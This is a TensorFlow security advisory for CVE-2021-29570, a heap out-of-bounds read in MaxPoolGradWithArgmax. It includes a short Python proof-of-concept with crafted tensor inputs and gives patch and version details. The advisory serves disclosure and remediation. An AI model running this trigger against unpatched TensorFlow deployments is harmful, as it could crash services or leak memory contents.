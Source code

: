 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-057.md
## TFSA-2021-057: Heap out of bounds read in `MaxPoolGradWithArgmax`

### CVE Number
CVE-2021-29570

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` can cause reads outside
of bounds of heap allocated data if attacker supplies specially crafted inputs:

```python
import tensorflow as tf

input = tf.constant([10.0, 10.0, 10.0], shape=[1, 1, 3, 1], dtype=tf.float32)
grad = tf.constant([10.0, 10.0, 10.0, 10.0], shape=[1, 1, 1, 4], dtype=tf.float32)
argmax = tf.constant([1], shape=[1], dtype=tf.int64)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]

tf.raw_ops.MaxPoolGradWithArgmax(
    input=input,
    grad=grad,
    argmax=argmax,
    ksize=ksize,
    strides=strides,
    padding='SAME',
    include_batch_in_index=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/ef0c008ee84bad91ec6725ddc42091e19a30cf0e/tensorflow/core/kernels/maxpooling_op.cc#L1016-L1017)
uses the same value to index in two different arrays but there is no guarantee
that the sizes are identical.

### Patches
We have patched the issue in GitHub commit
[dcd7867de0fea4b72a2b34bd41eb74548dc23886](https://github.com/tensorflow/tensorflow/commit/dcd7867de0fea4b72a2b34bd41eb74548dc23886).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
